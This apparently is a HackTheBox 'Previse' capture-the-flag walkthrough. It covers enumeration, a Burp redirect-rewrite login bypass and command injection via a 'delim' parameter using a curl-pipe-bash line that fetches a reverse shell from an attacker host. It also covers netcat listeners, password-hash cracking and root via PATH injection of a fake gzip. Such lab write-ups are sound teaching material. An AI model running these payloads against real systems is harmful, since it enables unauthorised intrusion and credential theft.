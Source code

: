 HackTheBox Previse Walkthrough

![privese](https://user-images.githubusercontent.com/67886668/128668035-e6d8c71e-04eb-408e-97a7-0ab497b90ab7.PNG)

summary:

1- Scanning

2- Enumeration

3- Exploitation

4- Privilege Escalation

1-Scanning

port scanning:

![nmap](https://user-images.githubusercontent.com/67886668/128668136-b281f9c8-7024-42b2-ab80-b914b7154b68.PNG)

after using nmap we found 2 open ports: ssh and http and it is not have anything interesting.

2-Enumeration

Gobuster : 

![gobuster](https://user-images.githubusercontent.com/67886668/128668184-5c5d52ba-9dcc-465c-a166-75888ddc9a52.PNG)

It has a lot of php file.Lets go to website to collect more information.
After going to http://previse.htb/ we get a login form i tried sql injection for this form but it does not work so I tried to go for this php files but Most of them depends to login form so it does not work.
but there is an interesting file called “nav.php”
it is work but after that when i click in any link it is retrive me to login page
so i’m started burp and found this response  

![302](https://user-images.githubusercontent.com/67886668/128668257-bc8e4f7f-0b3d-413a-82f6-6e2d9f9c8e2f.PNG)
   
After searching for a while about 302 found i knew i can edit responses using burp suite  to bypass this so i changed 302 found to 200 OK and changed the location.
HINT:to change location file look to request to know what php file you need ;).
it is work :)

3-Exploitation

![add user](https://user-images.githubusercontent.com/67886668/128668323-78d2b7d2-ff9e-48f3-b4e0-889d3e096a4d.PNG)

you will get this page,create a user and do the same in response using burp to add user.
then you were added a new user. 
go to the login page and login with your created user.

![uploaded files](https://user-images.githubusercontent.com/67886668/128668407-c4c87635-dc5e-46a3-abe2-1229583edf4b.PNG)

you are logged in, while discovering pages you will find this zip file download it to your device 
and take a look for his file. You will find mysql server credentials but you will not connect to mysql server so you need to get a shell before.

![getting shell](https://user-images.githubusercontent.com/67886668/128668444-e54a3993-fe76-4ce7-92d5-97d7173891e2.PNG)

so the shell you will get it from “logs.php”.
 create your reverse shell in your device using bash from this link  here and use this 
<curl http://10.10.xx.xx/shell.sh|bash> in delim variable 
but before that use  nc -lvnp <port number> in your terminal 
you gets the shell as www-data 
now you can use mysql to get user accounts.
    
![no sql](https://user-images.githubusercontent.com/67886668/128668652-8fa2e91c-bcdc-40e1-8867-f53a80f11242.PNG)
    
in my  case after using mysql it was not connected and didn’t respond to me.

![sql](https://user-images.githubusercontent.com/67886668/128668725-b64b26f2-4f05-413c-aa56-59406d76f1cd.PNG)
    
So I used a spawning tty shell and then tried to use mysql and it worked.

![user](https://user-images.githubusercontent.com/67886668/128668782-91415229-f046-498a-a04b-e3aac22f403a.PNG)
    
and now using your sql skills you will get this 2 users the first one that you want and second one was your created user. 
So now it is time to crack the hash.

![hash crack](https://user-images.githubusercontent.com/67886668/128668843-b7c47669-2a2a-490c-b57c-e89a35a44b1c.PNG)
    
i used hashcat but it is takes an one hour and didn’t get the hash, if you used this:
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt 
you will know the hash type is md5crypt-long.
so after using this command in the above figure it will take time but in the end you will get cracked hash.
    
![now user](https://user-images.githubusercontent.com/67886668/128668898-08f47e41-19cf-4df3-88be-a6b4093d7930.PNG)

after getting the password for m4lwhere, i tried to connect using ssh but it wasn’t work 
and in www-data i couldn’t use sudo and su so i used spawning tty shell again and then
connected as a m4lwhere and get user.txt

4-Privilege Escalation

![sudo](https://user-images.githubusercontent.com/67886668/128668925-fbc6267d-fc4d-44a1-ba73-1930040b21b0.PNG)
    
using sudo -l  it is an interesting script /opt/scripts/access_backup.sh.
after reading this file it is use gzip 
with some search i found i can use path injection to getting a shell as root 
    
![code injection](https://user-images.githubusercontent.com/67886668/128669002-d9021b19-e866-420f-b833-dca2844ef277.PNG)

I went to /tmp file ,then created a gzip script. It has a reverse shell using bash and makes it an executable file. 

![path injection](https://user-images.githubusercontent.com/67886668/128669060-84b80c27-d187-4c6e-8fab-4c88d102e7e7.PNG)
    
then i exported /tmp to the PATH variable, after add tmp to PATH it is time to get root.

![run script](https://user-images.githubusercontent.com/67886668/128669090-fb60f0bc-2117-420d-a9cf-f9aec4d0210a.PNG)
    
before running access.backup.sh script, we will use nc to listen new reverse shell like:
nc -lvnp 4444
    
![root](https://user-images.githubusercontent.com/67886668/128669112-ed6f5186-2733-499e-9a9b-f5bac8b3f83c.PNG)

after running the script you were to get a shell as a root cat your flag ;-)

